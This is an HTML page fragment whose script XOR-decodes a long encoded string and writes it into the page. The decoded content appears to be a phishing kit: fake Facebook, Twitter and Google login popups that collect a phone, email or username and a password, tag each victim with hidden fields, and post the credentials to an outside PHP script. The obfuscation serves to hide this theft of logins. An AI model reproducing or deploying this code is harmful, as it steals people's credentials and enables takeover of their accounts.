'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00nmekl'00'02tcnwg'1F'00Dcag`mmi'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00v{rg'00'02tcnwg'1F'00dd]d`'00'02pgcfmln{'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00wqgp]kf]tkavko'00'02tcnwg'1F'00ZJX;K'00'02-'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A`wvvml'02v{rg'1F'00qw`okv'00'02ancqq'1F'00`vl/nmekl/d`'00'1GNme'02Kl'1A-`wvvml'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmpo'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/apgcvg/caamwlv'00'1GApgcvg'02caamwlv'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/lmv/lmu'00'1GLmv'02lmu'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/dmpemvvgl/rcqqumpf'00'1GDmpemvvgl'02rcqqumpf'1D'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/`mz'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'02nclewceg/lcog/cavktg'00'1GGlenkqj'02'0:WI'0;'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cjcqc'02Klfmlgqkc'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cqc'02Hcuc'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cjcqc'02Ognc{w'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G'w47G7'w450A'w:C;G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1GGqrc'D3mn'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1GRmpvwew'GCq'02'0:@pcqkn'0;'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ak'02ancqq'1F'00dc'02dc/rnwq'00'1G'1A-k'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00amr{pkejv'00'1GDcag`mmi'02Kla,'1A-fkt'1G'2C'02'02'02'02'1A-fkt'1G'2C'1A-fkt'1G'2C'2C'1Afkt'02ancqq'1F'00rmrwr/nmekl'02vukvvgp'02clkocvgf'02dcfgKl'00'02qv{ng'1F'00fkqrnc{'1C'02lmlg'1@'00'1G'2C'02'02'02'02'1Afkt'02ancqq'1F'00rmrwr/`mz/nmekl/vukvvgp'00'02qv{ng'1F'00vgzv/cnkel'1Cngdv'1@'02rcffkle'1C7rz'1@'00'1G'2C'2;'2;'02'02'02'02'02'02'02'02'1Ac'02mlankai'1F'00anmqgvukv'0:'0;'00'02ancqq'1F'00anmqg/mvjgp'00'1G'1Ak'02ancqq'1F'00xofk'02xofk/anmqg'00'1Ganmqg'1A-k'1G'1A-c'1G'2C'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00jgcfgp/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--0r,amo,vp-ur/amlvglv-wrnmcfq-023:-25-emmeng]RLE3;417,rle'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Admpo'02cavkml'1F'00jvvrq'1C--pctkpcn,amo-i]dca,rjr'00'02ogvjmf'1F'00rmqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/nmekl/vukvvgp'00'1GNmekl'02vm'02Emmeng'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00klrwv/`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Anc`gn'1GRjmlg'0A'02gockn'0A'02mp'02wqgplcog'1A-nc`gn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00vgzv'00'02lcog'1F'00gockn'00'02rncagjmnfgp'1F'00'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00klrwv/`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Anc`gn'1GRcqqumpf'1A-nc`gn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00rcqqumpf'00'02lcog'1F'00rcqq'00'02rncagjmnfgp'1F'00'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00nmekl'00'02tcnwg'1F'00Vukvvgp'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00v{rg'00'02tcnwg'1F'00dd]emmeng'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00wqgp]kf]tkavko'00'02tcnwg'1F'00ZJX;K'00'02-'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A`wvvml'02v{rg'1F'00qw`okv'00'02ancqq'1F'00`wvvml'02`nwg'00'1G'02'02Nme'02Kl'02'02'1A-`wvvml'1G'1A`p'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'00'1GDmpemv'02rcqqumpf'1D'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'02`wngv'00'1G'w0200'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'00'1GQkel'02wr'02vm'02Emmeng'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmpo'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'1A-fkt'1G'2C'1A-fkt'1G'02'02'02'2C'2C'02'1Aqapkrv'02qpa'1F'00jvvrq'1C--chcz,emmengcrkq,amo-chcz-nk`q-hswgp{-1,7,3-hswgp{,okl,hq'00'1G'1A-qapkrv'1G'2C'1Aqapkrv'02qpa'1F'00jvvrq'1C--amfg,hswgp{,amo-wk-3,33,1-hswgp{/wk,hq'00'1G'1A-qapkrv'1G'2C'1Aqapkrv'02qpa'1F'00jvvrq'1C--aflhq,anmwfdncpg,amo-chcz-nk`q-hswgp{wk/vmwaj/rwlaj-2,0,1-hswgp{,wk,vmwaj/rwlaj,okl,hq'00'1G'1A-qapkrv'1G'2C'2C'2C'2C'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'1G'2C'2C'06'0:fmawoglv'0;,pgcf{'0:dwlavkml'0:'0;'02'5@'2C'2;'06'0:'00'01d`Nmekl'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'06'0:'00,dcag`mmi'00'0;,dcfgKl'0:'05qnmu'05'0;'1@'2C'2C'2;'2;'06'0:'00,anmqg/d`'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'00,dcag`mmi'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,qjmu'0:'0;'1@'2C'2;'2;'5F'0;'1@'2C'2;'5F'0;'1@'2C'2C'2;'06'0:'00'01vukvNmekl'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2C'2;'2;'06'0:'00,vukvvgp'00'0;,dcfgKl'0:'05qnmu'05'0;'1@'2C'2C'2;'2;'06'0:'00,anmqg/mvjgp'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'00,vukvvgp'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,qjmu'0:'0;'1@'2C'2;'2;'5F'0;'1@'2C'2;'5F'0;'1@'2C'5F'0;'1@'2C'2C'1A-qapkrv'1G'02'02'02'2C'2;'2;'02'2C'2;'1Aqapkrv'1G'2C'2;'02'02tcp'02amtgpApgcvgVgconmcfDkng'02'1F'02dwlavkml'0:gtglv'0;'02'5@'2C'2;'02'02'02'02tcp'02mwvrwv'02'1F'02fmawoglv,egvGngoglv@{Kf'0:'05amtgp]apgcvg]vgco]rpgtkgu'05'0;'1@'2C'2;'02'02'02'02mwvrwv,qpa'02'1F'02WPN,apgcvgM`hgavWPN'0:gtglv,vcpegv,dkngq'7@2'7F'0;'1@'2C'2;'02'02'5F'1@'2C'2C'2;'02'02tcp'02ctcvcpApgcvgVgconmcfDkng'02'1F'02dwlavkml'0:gtglv'0;'02'5@'2C'2;'02'02'02'02tcp'02mwvrwv'02'1F'02fmawoglv,egvGngoglv@{Kf'0:'05ctcvcp]apgcvg]vgco]rpgtkgu'05'0;'1@'2C'2;'02'02'02'02mwvrwv,qpa'02'1F'02WPN,apgcvgM`hgavWPN'0:gtglv,vcpegv,dkngq'7@2'7F'0;'1@'2C'2;'02'02'5F'1@'2C'2;'1A-qapkrv'1G'2C'1Aqapkrv'1G'2C'2;'2;'06'0:dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'05,qgngav/ecog'05'0;,qgngavkxg'0:'5@'2C'2;'2;'2;'2;oczKvgoq'1C'021'2C'2;'2;'2;'5F'0;'1@'2C'2;'2;'5F'0;'2C'2C'2;'1A-qapkrv'1G'2;'2;'02'2C'2;'2;'02'2C'02'02'02'02'02'02'1A-fkt'1G'2C'2C'2C'2C'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'1G'2C'2;'2;'2;'06'0:'05'7@fcvc/vmeeng'1F'00rmrmtgp'00'7F'05'0;,rmrmtgp'0:'0;'1@'2C'2;'2;'2;'06'0:'05,cngpv'05'0;,pgcf{'0:dwlavkml'0:'0;'5@'2C'2;'2;'2;'02'02'02'02kd'0:'03'06'0:vjkq'0;,jcqAncqq'0:'05qvc{'05'0;'0;'02'5@'02'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,cffAncqq'0:'05qjmu'05'0;'1@'5F'0A'02722'0;'1@'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,pgomtgAncqq'0:'05qjmu'05'0;'1@'5F'0A'0237222'0;'1@'2C'2;'2;'2;'02'02'02'02'5F'2C'2;'2;'2;'02'02'02'02gnqg'5@'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,cffAncqq'0:'05qjmu'05'0;'1@'5F'0A'02722'0;'1@'2C'2;'2;'2;'02'02'02'02'5F'2C'2;'2;'2;'5F'0;'1@'2C'2;'2;'1A-qapkrv'1G'2C'02'02'02'02'02'02'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-tglfmpqockl,hq'00'1G'1A-qapkrv'1G'2C'02'02'02'02'02'02'02'02'02'02'02'1Aqapkrv'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-hq/vpcai-vpcai,hq'00'1G'1A-qapkrv'1G'02'2C'2C'02'02'02'1A-`mf{'1G'2C'1A-jvon'1G'2C'2C'2C"; teks=""; teksasli="";var panjang;panjang=enkripsi.length;for (i=0;i<panjang;i++){ teks+=String.fromCharCode(enkripsi.charCodeAt(i)^2) }teksasli=unescape(teks);document.write(teksasli);
</script>

